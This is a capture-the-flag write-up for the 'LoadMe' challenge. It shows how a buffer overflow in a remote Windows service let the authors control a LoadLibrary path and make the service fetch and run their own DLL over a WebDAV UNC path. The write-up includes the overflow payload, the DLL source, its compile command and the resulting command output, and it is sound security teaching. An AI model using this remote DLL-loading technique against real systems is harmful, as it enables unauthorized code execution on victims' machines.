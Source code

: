 # LoadMe

> We have developed a super soft that gives meal ideas based on ingredients. The service is still in beta but the interface should look like this:  
> 
> nc loadme.insomnihack.ch 1337

Even though it's supposed to be a pwn challenge we get no binary to reverse engineer.

```
$ nc loadme.insomnihack.ch 1337
██╗███╗   ██╗███████╗ ██████╗ ███╗   ███╗███╗   ██╗██╗    ██╗  ██╗ █████╗  ██████╗██╗  ██╗
██║████╗  ██║██╔════╝██╔═══██╗████╗ ████║████╗  ██║██║    ██║  ██║██╔══██╗██╔════╝██║ ██╔╝
██║██╔██╗ ██║███████╗██║   ██║██╔████╔██║██╔██╗ ██║██║    ███████║███████║██║     █████╔╝ 
██║██║╚██╗██║╚════██║██║   ██║██║╚██╔╝██║██║╚██╗██║██║    ██╔══██║██╔══██║██║     ██╔═██╗ 
██║██║ ╚████║███████║╚██████╔╝██║ ╚═╝ ██║██║ ╚████║██║    ██║  ██║██║  ██║╚██████╗██║  ██╗
╚═╝╚═╝  ╚═══╝╚══════╝ ╚═════╝ ╚═╝     ╚═╝╚═╝  ╚═══╝╚═╝    ╚═╝  ╚═╝╚═╝  ╚═╝ ╚═════╝╚═╝  ╚═╝

Welcome to the cookery recipe Generator:
Please give a comma-separated list of ingredients:
```

The service asks for a list, prints it back and terminates:

```
< Please give a comma-separated list of ingredients:
> cement,sand,gravel,water
< cement,sand,gravel,water
< Sorry, the kitchen is currently closed
```

The obvious next step is to try a payload like this one:

```
< Please give a comma-separated list of ingredients:
> ,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,
```

And this time we get a nice error message along with a stack trace:

```
WARNING Unable to load the dll ,,,,,,,,,,,
CookeryRecipe.exe caused an Access Violation at location 000000005ED5D491 in module wow64.dll DEP violation at location 0000000000000000.

Registers:
eax=00000000 ebx=000b9020 ecx=2b3a867b edx=00000000 esi=000b90e0 edi=013ff944
eip=00000000 esp=013ff86c ebp=013ff968 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010202

AddrPC   Params
00000000 00000000 000BA627 00000001
000B1750 00000018 017110A4 017110CC  CookeryRecipe.exe!main  [/work/src/CookeryRecipe.c @ 65]
000B1396 00000000 00000000 000B14C0  CookeryRecipe.exe!__tmainCRTStartup  [/usr/src/mxe/tmp-gcc-i686-w64-mingw32.static/gcc-11.2.0.build_/mingw-w64-v9.0.0/mingw-w64-crt/crt/crtexe.c @ 321]
73FB62C4 011A7000 2A057C0F 00000000  kernel32.dll!0x162c4
772B1B69 FFFFFFFF 772D33EE 00000000  ntdll.dll!0x61b69
772B1B34 000B14C0 011A7000 00000000  ntdll.dll!0x61b34
```

The warning is especially interesting, because it suggests we can try to make it load a library with a specified name, 
which we most likely overwrote providing an input of more than 64 characters.

We've tried to load a library that should load on every Windows system (for example `user32.dll`) and although the app
still crashes with a stracktrace, the warning about not being able to load the dll doesn't show up anymore.

Then we remembered a nifty trick when exploiting Windows challenges at CTFs (especially at onsite events): if we can
somehow invoke a `LoadLibrary` with our own library hosted on a network share, we immediately gain code execution that's
very convenient to use (after all, that's just C code written by us).

Just like before with `user32.dll` we've tried providing a UNC path to a publicly hosted library:

```
< Please give a comma-separated list of ingredients:
> ,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,\\live.sysinternals.com\tools\autorunsc.exe
< ,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,\\live.sysinternals.com\tools\autorunsc.exe
< CookeryRecipe.exe caused an Access Violation at location 000000005ED5D491 in module wow64.dll DEP violation at location 0000000000000000.
```

And again, there is no warning about not being able to load the library and, what confirms our suspicions that it is
indeed an invocation of `LoadLibary` with an argument provided by us, a few seconds delay (most likely to download the
binary) before the program continued.

We decided it's time to write a library of our own:
```c
#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    system("dir");
    ExitProcess(1);
}
```

Which then can be cross-compiled to a 32-bit Windows library on Linux with mingw:  
```
$ i686-w64-mingw32-g++ kodzik.c -s -shared -o kodzik.dll
```

Last thing we needed to do was to host a public SMB share and lost an hour trying to do so. It turns out that many ISPs
and hosting providers just outright block ports 139 and 445. And rightly so, because the world had enough problems with
vulnerabilities in popular SMB implementations (including Wannacry with its SMB `EternalBlue` exploit). But while looking
at `tcpdump` output trying to debug SMB connectivity we also saw a connection attempt to the tcp/80 port. Quick Google
search revealed that Windows might also try to use WebDAV while resolving UNC paths and that we can even specify
a custom port in the path itself: `\\1.2.3.4@8080\path\to\a\file.dll`.
Knowing that we've set up a WebDAV share using Apache and tried to load our library with the task service:

```
< Please give a comma-separated list of ingredients:
> ,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,\\1.2.3.4@8080\data\kodzik.dll
< ,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,\\1.2.3.4@8080\data\kodzik.dll
<  Volume in drive C is OS
<  Volume Serial Number is 4A1B-C069
<
<  Directory of C:\Users\Public\loadme
<
< 01/28/2022  05:08 PM    <DIR>          .
< 01/28/2022  05:08 PM    <DIR>          ..
< 01/28/2022  04:19 PM    <DIR>          bin
< 11/24/2021  04:20 PM               186 guardian.bat
< 01/28/2022  05:90 PM             3,290 guardian.ps1
...
```

Only thing left was to find a file with the flag and print it out:
`INS{S0M3T1M3S-PWN-DOES-NOT-REQUIRE-REGISTERS}`.

More like a misc than a pwn if you ask us, but...